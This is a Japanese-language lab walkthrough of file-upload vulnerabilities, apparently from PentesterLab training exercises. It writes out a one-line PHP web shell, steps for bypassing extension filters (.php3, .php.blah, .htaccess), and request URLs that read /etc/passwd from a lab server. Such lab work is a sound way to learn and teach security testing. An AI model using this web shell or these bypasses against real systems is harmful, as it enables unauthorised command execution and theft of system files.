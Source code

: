 # <span style="color: blue;">Example 1</span>
```
<?php 
  system($_GET["cmd"]); 
?>
```
phpファイルを作成しファイルをuploadする。   
![2d2f8cb8a082a162d86a3d930c8191c0.png](../../_resources/2d2f8cb8a082a162d86a3d930c8191c0-1.png)   

gobusterでアップロードしたファイルを探す   
![5191bbe73247a9d084c26ee601ce6314.png](../../_resources/5191bbe73247a9d084c26ee601ce6314-1.png)　　　
![9462632f1f0670fa182ee7e91714ac18.png](../../_resources/9462632f1f0670fa182ee7e91714ac18.png)  
```
http://192.168.100.185/upload/images/cmd.php?cmd=cat%20/etc/passwd
```
![1b0991664ec97b89975168b117305e7e.png](../../_resources/1b0991664ec97b89975168b117305e7e.png)    
# <span style="color: blue;">Example 2</span>
拡張子の制限があるので.phpファイルをアップロードできない。
![221d3a6ee24b0000e8a67ac5b9b0a3c7.png](../../_resources/221d3a6ee24b0000e8a67ac5b9b0a3c7.png)   
この制限を回避するには、次のいずれかの方法を使用できます。   
- 拡張子を .php3 に変更します。他のシステムでは、.php4 や .php5 のような拡張子でも動作する場合があります。これは、ウェブサーバーの設定に依存します。
- Apache が知らない拡張子 .blah を拡張子 .php の後に使用する。Apacheは拡張子.blahの扱い方を知らないので、次の拡張子.phpに移動し、PHPコードを実行します。
- .htaccessファイルをアップロードし、別の拡張子をPHPで実行できるようにする（このテクニックについては、PentesterLabのトレーニング：（SQLインジェクションからシェルへ：PostgreSQL編）[https://pentesterlab.com/fromsqlitoshellpg_edition.html]で詳しく学ぶことができます）。   

これらの方法のいずれかを使用すると、コマンドを実行できるはずです。
```
http://192.168.100.185/upload/images/cmd.php3?cmd=cat%20/etc/passwd
```

![cfab4f875b3bb0e3dd51a0aeb2f3683f.png](../../_resources/cfab4f875b3bb0e3dd51a0aeb2f3683f.png)   

```
http://192.168.100.185/upload/images/cmd.php.blah?cmd=cat%20/etc/passwd
```

![4c363ab94f37709b55d065ca3b05bb69.png](../../_resources/4c363ab94f37709b55d065ca3b05bb69.png)